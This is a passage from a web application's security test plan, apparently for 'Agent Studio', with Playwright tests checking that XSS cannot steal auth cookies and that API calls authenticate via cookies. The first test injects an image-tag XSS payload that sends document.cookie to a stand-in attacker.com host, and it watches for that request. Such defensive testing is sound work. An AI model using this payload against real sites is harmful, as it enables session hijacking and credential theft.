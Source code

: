 **Expected Result:**
- ✅ XSS payload blocked by CSP (script-src violation)
- ✅ Even if XSS executes, `document.cookie` does not contain auth token
- ✅ No network request to `attacker.com` observed

**Automation:**
```typescript
test('XSS cannot exfiltrate authentication cookies', async ({ page }) => {
  let exfiltrationAttempted = false;

  // Intercept requests to detect exfiltration
  await page.route('**/*attacker.com*', route => {
    exfiltrationAttempted = true;
    route.abort();
  });

  await page.goto('/agents/new');
  await page.fill('[name="description"]',
    '<img src=x onerror="fetch(\'https://attacker.com/steal?c=\' + document.cookie)">');
  await page.click('button[type="submit"]');

  await page.goto('/agents');
  await page.waitForTimeout(2000); // Wait for potential XSS execution

  expect(exfiltrationAttempted).toBe(false); // CSP blocks or no token to steal
});
```

**PASS Criteria:** No token exfiltration possible via XSS

---

### TS1-004: Authenticated API Request with Cookies

**Objective:** Verify API requests use cookies automatically (no manual Authorization header)

**Test Steps:**
1. Log in to Agent Studio
2. Navigate to Workflows page (triggers `/api/workflows` GET request)
3. Open DevTools → Network tab
4. Inspect request headers for `/api/workflows`

**Expected Result:**
- ✅ Request includes `Cookie: AgentStudio.AuthToken=<value>` header (automatically sent)
- ✅ Request does NOT include manual `Authorization: Bearer <token>` header
- ✅ Response status: 200 OK (authentication successful)

**Automation:**
```typescript
test('API requests include authentication cookie', async ({ page }) => {
  const requestHeaders: Record<string, string> = {};

  page.on('request', req => {
    if (req.url().includes('/api/workflows')) {
      Object.assign(requestHeaders, req.headers());
    }
  });

  await page.goto('/workflows');
  await page.waitForResponse(res => res.url().includes('/api/workflows'));

  expect(requestHeaders['cookie']).toContain('AgentStudio.AuthToken');
  expect(requestHeaders['authorization']).toBeUndefined(); // No Bearer token
});
```
